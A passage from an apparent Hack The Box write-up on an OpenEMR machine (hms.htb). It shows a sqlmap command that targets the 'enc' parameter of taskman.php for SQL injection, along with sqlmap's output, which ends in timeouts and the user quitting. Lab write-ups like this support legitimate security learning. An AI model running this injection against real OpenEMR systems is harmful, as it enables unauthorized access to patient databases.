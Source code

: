 Before dumping anything we can verify manually the URL:

![](https://i.imgur.com/nBTcZR3.png)

Fine, we can now fire [sqlmap][sqlmap], retrieve DBMS banner:

```
$ sqlmap -u 'http://hms.htb/interface/forms/eye_mag/taskman.php?action=make_task&from_id=1&to_id=1&pid=1&doc_type=1&doc_id=1&enc=1' -p enc -b --random-agent
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:51:36 /2020-07-14/

[21:51:36] [INFO] fetched random HTTP User-Agent header value 'Opera/8.51 (X11; Linux i686; U; en)' from file '/opt/sqlmap/data/txt/user-agents.txt'
[21:51:37] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('OpenEMR=b9g6um1rbhc...dmd5cln601'). Do you want to use those [Y/n] n
[21:52:08] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[21:52:08] [INFO] testing if the target URL content is stable
[21:52:38] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:54:08] [CRITICAL] connection timed out to the target URL
[21:54:08] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
[21:54:24] [CRITICAL] can't check dynamic content because of lack of page content
[21:54:24] [INFO] heuristic (basic) test shows that GET parameter 'enc' might be injectable (possible DBMS: 'MySQL')
[21:54:24] [INFO] testing for SQL injection on GET parameter 'enc'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[21:54:32] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:55:29] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests
[21:55:29] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:56:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:57:55] [CRITICAL] connection timed out to the target URL
[21:58:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[21:59:55] [CRITICAL] connection timed out to the target URL
[22:00:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[22:01:55] [CRITICAL] connection timed out to the target URL
[22:02:25] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
there seems to be a continuous problem with connection to the target. Are you sure that you want to continue? [y/N] N
[22:03:36] [ERROR] user quit
```